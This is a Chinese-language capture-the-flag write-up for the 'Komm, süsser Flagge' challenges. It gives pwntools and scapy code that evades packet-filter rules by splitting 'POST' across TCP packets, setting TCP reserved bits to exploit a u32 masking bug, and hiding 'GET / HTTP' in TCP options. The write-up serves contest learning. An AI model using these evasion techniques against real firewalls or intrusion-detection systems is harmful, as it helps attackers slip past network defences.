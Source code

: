 ## Komm, süsser Flagge - 我的 POST

鉴于规则是拒绝含有`POST` 的 tcp 包，我们只需要把请求在开头的 `POST` 中间分成两个TCP包就好了。代码如下

```py
import pwn

token=b"<token>"

conn = pwn.remote('202.38.93.111',18080)
conn.send(b'PO')
conn.send(b'ST / HTTP/1.1\r\nHost:202.38.93.111\r\nContent-Length: <token length>\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n')
conn.send(token)
conn.interactive()
```

## Komm, süsser Flagge - 我的 P

规则应当是是拒绝内容以 `P` 开头的 tcp 包。然而，由于和 [这篇文章](http://www.stearns.org/doc/iptables-u32.current.html){: target="_blank" rel="noopener"} 中描述的实现相比，取 TCP 数据指针的时候移位后忘记加 Mask 了，所以如果我们把数据指针后面的两位（刚好是保留位）设为非 0，我们就能绕过这个规则。

我这里使用了 `scapy` 进行发包。我从 `scapy` 的源码里把 `TCP_client` 这个类进行了修改，让它初始化包的时候把保留位全部设置为 1，也就是：

```py
self.l4[TCP].reserved = 0b111
```

然后运行即可获得 flag：

```py
s=Custom_TCP_client.tcplink(Raw, '202.38.93.111',18081,debug=5)

token=b"<token>"
s.send(b'POST / HTTP/1.1\r\nHost:202.38.93.111\r\nContent-Length: <token length>\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n')
s.send(token)

print(raw(s.recv()))
```

不过我是 Windows 用户，自然没法像官方题解一样直接用 nftables，虽然 wsl 可能能用。

## Komm, süsser Flagge - 我的 GET

鉴于所有包的前五十个字节中都必须含有 `GET / HTTP`，我们只能增大 TCP 包内的数据指针，在数据之前空出一些字节来放这个字符串了。刚好，TCP 的 options 字段就可以放自定义的内容。

和上一小题同样使用 `scapy`，在初始化的时候加入自定义 options：

```py
self.l4 = IP(dst=ip) / TCP(sport=self.sport, dport=self.dport, flags=0,
	seq=random.randrange(0, 2**32),options=[(16,b'GET / HTTP')])
```
